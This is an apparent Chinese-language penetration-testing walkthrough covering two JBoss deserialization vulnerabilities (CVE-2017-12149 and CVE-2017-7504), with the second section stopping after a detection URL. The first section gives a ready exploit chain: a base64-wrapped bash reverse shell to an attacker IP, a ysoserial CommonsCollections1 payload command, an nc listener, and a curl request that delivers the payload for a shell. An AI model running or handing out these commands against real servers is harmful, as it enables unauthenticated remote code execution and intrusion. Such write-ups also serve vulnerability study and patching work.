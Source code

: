 #漏洞1 jboss 反序列化命令执行漏洞 （CVE-2017-12149）

漏洞简介：
JBoss Application Server 反序列化命令执行漏洞（CVE-2017-12149），远程攻击者利用漏洞可以在未经过任何身份验证的服务器主机上执行任意代码。漏洞为高。该漏洞为java反序列化错误类型，存在于jboss的HttpInvoker组件中的ReadOnlyAccessFilter过滤器没有经过任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

影响范围：
JBoss 5.x
JBoss 6.x

漏洞复现：
1. 访问ip:port/invoker/readonly。返回状态码为500的报错页面，则证明漏洞存在

2. 正常的bash会被分割，如” bash -i >& /dev/tcp/Attack_ip/Attack_port 0>&1” 会被分割成一个一个单词。所以我们对上边的内容进行base64编码。

3. 然后生成poc代码：
java  -jar  ysoserial.jar  CommonsCollections1 "bash -c {echo,base64编码后的内容}|{base64,-d}|{bash,-i}" > poc.ser

4. 本地监听，nc -lvp 8888

5. 执行poc即可获取shell
curl http://ip:port/invoker/readonly --data-binary @poc.ser

#漏洞2 JBossMQ JM 反序列化漏洞 （CVE-2017-7504）

漏洞介绍：
Red Hat JBoss Application Server（AS，也称WildFly）是美国红帽（Red Hat）公司的一款基于JavaEE的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。Jboss AS 4.x及之前版本中,JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞,远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

影响版本：
4.x及以下

漏洞复现：
1. 访问下边页面
http://ip:port/jbossmq-httpil/HTTPServerILServlet
如果出现则代表存在漏洞



